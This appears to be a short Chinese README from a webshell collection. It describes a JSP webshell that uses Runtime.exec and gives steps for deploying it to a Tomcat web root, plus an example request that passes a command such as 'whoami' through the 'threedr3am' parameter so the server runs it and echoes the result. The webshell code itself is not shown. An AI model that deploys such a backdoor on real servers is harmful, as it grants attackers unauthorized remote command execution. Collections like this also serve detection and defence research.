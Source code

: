 ### Runtime.exec的JSP Webshell


使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问17.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/17.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```